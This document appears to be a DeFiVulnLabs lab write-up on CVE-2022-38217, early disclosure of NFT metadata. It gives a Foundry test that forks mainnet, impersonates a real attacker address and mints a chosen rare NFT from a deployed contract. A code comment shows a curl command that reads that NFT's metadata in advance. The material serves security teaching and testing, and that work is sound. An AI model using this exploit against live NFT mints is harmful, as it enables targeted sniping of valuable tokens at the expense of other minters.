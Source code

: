 # NFT Mint via Exposed Metadata  
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  
**Name:** NFT Mint via Exposed Metadata Vulnerability

**Description:**  
The contract is vulnerable to CVE-2022-38217, this could lead to the early disclosure of metadata of all NFTs in the project.
As a result, attacker can find out valuable NFTs and then target mint of specific NFTs by monitoring mempool and sell the NFTs for a profit in secondary market.

The issue is the metadata should be visible after the minting is completed

**REF:**

https://twitter.com/Supremacy_CA/status/1596176732729769985

https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb

**Contract:**  
```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // Fantastic Weslie

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```
**How to Test:**

forge test --contracts src/test/**NFTMint_exposedMetadata.sol**-vvvv  
```
function testExploit() public {
        //Since the contract is vulnerable to CVE-2022-38217
        //it could lead to the early disclosure of metadata of all NFTs in the project
        //As a result, attacker can find out valuable NFTs and then target mint specified NFTs by monitoring Mempool and sell the NFTs for a profit in secondary market

        //For example, Lets assume the attacker finds out that NFT#142 is a rare NFT, now he just has to moniter the mempool till NFT#141 is minted and then mint NFT#142
        //View Metadata of the NFTs via cURL -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //The issue is the metadata should be visible after the minting is completed

        //etherscan tx - 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //etherscan tx - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }
```
 ![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fae9db374-5202-4b32-872c-c34689b977ec%2FUntitled.png?table=block&id=7c2373ef-3082-4eb1-bb2c-3e270899cb6b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=1430&userId=&cache=v2)


